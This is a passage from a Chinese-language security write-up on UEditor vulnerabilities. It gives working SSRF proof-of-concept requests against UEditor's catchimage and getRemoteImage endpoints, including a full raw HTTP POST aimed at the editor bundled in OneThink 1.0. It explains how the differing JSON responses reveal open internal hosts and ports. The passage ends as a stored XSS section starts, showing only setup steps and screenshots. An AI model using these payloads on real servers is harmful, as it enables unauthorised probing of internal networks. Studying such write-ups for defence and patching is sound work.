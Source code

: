 Poc 如下，同样是该 controller 文件，构造 source 参数，即可进行内网相关端口探测。

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

这里可以根据页面返回的结果不同，来判断该地址对应的主机端口是否开放。可以总结为以下几点：

1. 如果抓取不存在的图片地址时，页面返回如下，即 state 为 “远程连接出错”。

```
{“state”: “SUCCESS”, list:[{“state”:"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

2. 如果成功抓取到图片，页面返回如下，即 state 为 “SUCCESS”。

```
{“state”: “SUCCESS”, list: [{“state”:“SUCCESS”,“size”:“5103”,“source”:“http://192.168.135.133:8080/tomcat.png”,“title”:“1527173588127099881.png”,“url”:"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

3. 如果主机无法访问，页面返回如下，即 state 为 “抓取远程图片失败”。

```
{“state”:“SUCCESS”, list: [{“state”:“\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25”}]}
```

还有一个版本的 ssrf 漏洞 ，存在于 onethink 1.0 中的 ueditor，测试版本为 1.2 直接贴 Poc：

```
POST http://target/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```

**0x06 另一处 XSS 漏洞**

首先安装部署环境：

```
https://github.com/fex-team/ueditor/releases/tag/v1.4.3.3
```

存储型 XSS 需要写入后端数据库，这里要把编辑器部署到一个可与数据库交互的环境中。首先我们打开编辑器输入正常的文本。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkyR4AJS43DZsICkPgIARswuZKuVPzlhhIw0o2bhib7xzUHYwsQ5pbqfg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkYD9uZSrBAbHr6ib2gCTC8sicpnOEHg9Tquh0QV42BIwkByzMmGzC5icibQ/640?wx_fmt=png)
